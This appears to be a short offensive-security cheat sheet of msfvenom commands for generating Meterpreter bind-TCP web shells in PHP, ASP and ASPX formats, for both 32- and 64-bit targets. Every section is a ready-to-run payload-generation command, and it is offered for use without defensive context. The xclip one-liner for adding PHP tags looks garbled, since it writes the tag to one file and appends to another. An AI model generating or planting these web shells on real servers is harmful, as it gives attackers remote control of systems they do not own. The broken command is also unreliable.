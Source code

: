 # Bind Shells

## PHP

PHP meterpreter bind callback shell

```
$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw > met.php
```

After generating the PHP meterpreter bind callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard met.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php
```

## ASP

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x86.asp
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x64.asp
```

## ASPX

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x86.aspx
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x64.aspx
```